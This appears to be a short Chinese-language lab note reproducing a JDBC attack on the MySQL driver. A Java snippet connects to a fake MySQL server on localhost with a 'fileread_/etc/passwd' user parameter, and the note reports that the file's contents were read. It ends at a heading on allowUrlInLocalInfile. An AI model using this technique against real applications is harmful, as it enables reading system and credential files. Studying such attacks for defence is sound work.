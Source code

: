 ## 漏洞复现

```
package JDBCAttack;

import java.sql.Connection;
import java.sql.DriverManager;

public class test {
    public static void main(String[] args) throws Exception{
        String url = "jdbc:mysql://127.0.0.1:2333/test?user=fileread_/etc/passwd";
        Connection conn = DriverManager.getConnection(url);
        conn.close();
    }
}
```

工具地址：https://github.com/fnmsd/MySQL_Fake_Server

改一下里面的服务端口，我改到了2333

![image-20221202210141404](images/2.png)

读到了/etc/passwd的内容

## allowUrlInLocalInfile的使用
